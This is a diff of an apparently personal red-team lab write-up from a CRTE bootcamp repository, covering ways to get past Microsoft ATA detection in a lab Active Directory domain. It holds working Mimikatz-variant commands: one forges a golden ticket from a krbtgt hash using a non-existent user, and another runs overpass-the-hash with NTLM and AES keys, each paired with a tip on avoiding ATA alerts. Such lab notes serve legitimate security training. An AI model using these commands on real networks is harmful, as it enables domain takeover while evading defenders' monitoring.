

Before and after one commit to brianyaucy/PA-CRTEBootcamp, a Markdown page: l29-BypassATA.md, the part around the change printed below. Shown: that part at 83% size. GitHub-like rendering; pictures changed too: images/0155981d43848a7373d8281ecb325562c7487ba45b887f4bda54065e67b8ff96.png (added), images/c366dd0fbf7864ae0569085f47eaae4d90d3ecff8944c1a47b0f42c171639139.png (added); blank space fills up the shorter version.

Commit message:
Content update

````diff
--- a/l29-BypassATA.md
+++ b/l29-BypassATA.md
@@ -3,6 +3,7 @@
 - [Hands-on 29: Bypassing ATA](#hands-on-29-bypassing-ata)
   - [Tasks](#tasks)
   - [Create a golden ticket with NTLM hash of krbtgt without detection by ATA](#create-a-golden-ticket-with-ntlm-hash-of-krbtgt-without-detection-by-ata)
+  - [Use AES keys of administrator to run a PowerShell session using OverPTH without detection in ATA](#use-aes-keys-of-administrator-to-run-a-powershell-session-using-overpth-without-detection-in-ata)
 
 ---
 
@@ -16,3 +17,34 @@
 ---
 
 ## Create a golden ticket with NTLM hash of krbtgt without detection by ATA
+
+Note ATA (1.9) does not detect Golden tickets created with a non-existent username.
+
+```
+C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:atabypass /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /ptt" "exit"
+```
+
+![picture 19](images/0155981d43848a7373d8281ecb325562c7487ba45b887f4bda54065e67b8ff96.png)
+
+<br/>
+
+Try to access `us-dc`:
+
+```
+dir \\us-dc.us.techcorp.local\c$
+```
+
+![picture 20](images/c366dd0fbf7864ae0569085f47eaae4d90d3ecff8944c1a47b0f42c171639139.png)
+
+<br/>
+
+---
+
+## Use AES keys of administrator to run a PowerShell session using OverPTH without detection in ATA
+
+When doing Over-PTH, when providing all `NTLM`, `AES128` and `AES256`, it avoids detection by ATA.
+
+```
+C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /ntlm:43b70d2d979805f419e02882997f8f3f /aes128:c9ae4aae409161db4cbb534f58457944 /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /run:cmd.exe" "exit"
+```
+
````
Also changed, not shown: other parts of l29-BypassATA.md (+5 -0 lines), images/268291f5f217f7073a96860c5743b08168cf8c9ad237356bdd2887b55bd7626b.png (added).
